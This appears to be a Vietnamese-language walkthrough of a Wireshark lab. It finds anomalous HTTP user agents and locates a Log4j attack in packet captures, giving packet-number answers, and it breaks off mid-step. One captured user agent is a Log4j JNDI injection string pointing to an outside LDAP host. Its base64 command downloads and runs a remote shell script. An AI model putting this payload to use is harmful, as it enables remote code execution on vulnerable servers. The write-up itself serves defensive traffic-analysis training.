


#### Answer the questions below

Use the "Desktop/exercise-pcaps/http/user-agent.cap" file.
**Câu 1:** Investigate the user agents. What is the number of anomalous  "user-agent" types?

B1: Lọc các gói tin bằng http.user_agent
B2: Vào phần user_agent áp dụng làm 1 cột

B3: Xem và tìm các user_agent bất thường

**Có 6 bất thường** :
Mozilla/5.0 (Windows; U; Windows NT 6.4; en-US) AppleWebKit/534.10 (KHTML, like Gecko) Chrome/8.0.552.237 Safari/534.10
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
Wfuzz/2.4
sqlmap/1.4#stable (http://sqlmap.org)
${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}
Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0

**Câu 2:** What is the packet number with a subtle spelling difference in the user agent field?

Gói tin 52 viết Mozlila

#### Use the "Desktop/exercise-pcaps/http/http.pcapng" file.
**Câu 3:** Locate the "Log4j" attack starting phase. What is the packet number?

Dựa vào: Tóm tắt về phân tích lỗ hổng Log4j:
(ip contains "jndi") or ( ip contains "Exploit")

Gói tin bắt đầu là 444

**Câu 4:** Xác định giai đoạn bắt đầu tấn công "Log4j" và giải mã lệnh base64. Địa chỉ IP mà đối thủ liên lạc là gì?
B1: Trong gói tin 444 đó

